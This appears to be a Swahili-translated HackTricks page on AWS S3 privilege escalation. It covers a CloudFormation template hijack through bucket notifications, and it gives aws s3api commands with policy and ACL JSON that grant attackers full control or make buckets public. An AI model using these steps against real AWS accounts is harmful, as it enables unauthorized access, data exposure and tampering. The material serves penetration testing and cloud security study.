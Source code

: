 # AWS - S3 Privesc

{{#include ../../../banners/hacktricks-training.md}}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

Mshambuliaji mwenye ruhusa hizo juu ya ndoo za kuvutia anaweza kuwa na uwezo wa kuiba rasilimali na kupandisha mamlaka.

Kwa mfano, mshambuliaji mwenye **ruhusa hizo juu ya ndoo ya cloudformation** inayoitwa "cf-templates-nohnwfax6a6i-us-east-1" ataweza kuiba uanzishaji. Ufikiaji unaweza kutolewa kwa sera ifuatayo:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Action": [
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"
],
"Resource": [
"arn:aws:s3:::cf-templates-*/*",
"arn:aws:s3:::cf-templates-*"
]
},
{
"Effect": "Allow",
"Action": "s3:ListAllMyBuckets",
"Resource": "*"
}
]
}
```
Na utekaji ni waweza kwa sababu kuna **dirisha dogo la muda kutoka wakati template inapoupoaded** kwenye bucket hadi wakati **template inatekelezwa**. Mshambuliaji anaweza tu kuunda **lambda function** katika akaunti yake ambayo itakuwa **inachochea wakati arifa ya bucket inatumwa**, na **hijacks** **maudhui** ya **bucket** hiyo.

![](<../../../images/image (174).png>)

Moduli ya Pacu [`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection) inaweza kutumika kuendesha shambulio hili.\
Kwa maelezo zaidi angalia utafiti wa asili: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

Hizi ni ruhusa za **kupata na kupakia vitu kwenye S3**. Huduma kadhaa ndani ya AWS (na nje yake) hutumia hifadhi ya S3 kuhifadhi **faili za usanidi**.\
Mshambuliaji mwenye **ufikiaji wa kusoma** kwao anaweza kupata **taarifa nyeti** juu yao.\
Mshambuliaji mwenye **ufikiaji wa kuandika** kwao anaweza **kubadilisha data ili kutumia huduma fulani na kujaribu kupandisha mamlaka**.\
Hizi ni baadhi ya mifano:

- Ikiwa mfano wa EC2 unahifadhi **data ya mtumiaji kwenye bucket ya S3**, mshambuliaji anaweza kuibadilisha ili **kutekeleza msimbo wowote ndani ya mfano wa EC2**.

### `s3:PutBucketPolicy`

Mshambuliaji, ambaye anahitaji kuwa **kutoka kwenye akaunti hiyo hiyo**, ikiwa sivyo kosa `Njia iliyoainishwa hairuhusiwi itasababisha`, kwa ruhusa hii ataweza kujipa ruhusa zaidi juu ya bucket(s) akimruhusu kusoma, kuandika, kubadilisha, kufuta na kufichua buckets.
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

Mshambuliaji anaweza kutumia ruhusa hizi **kumpatia ufikiaji zaidi** juu ya makundi maalum.\
Kumbuka kwamba mshambuliaji hatahitaji kuwa kutoka kwenye akaunti ile ile. Zaidi ya hayo, ufikiaji wa kuandika
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

Mshambuliaji anaweza kutumia ruhusa hizi kuongeza ufikiaji wake juu ya vitu maalum ndani ya makundi.
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

Mshambuliaji mwenye haki hizi anatarajiwa kuwa na uwezo wa kuweka Acl kwa toleo maalum la kitu.
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{{#include ../../../banners/hacktricks-training.md}}
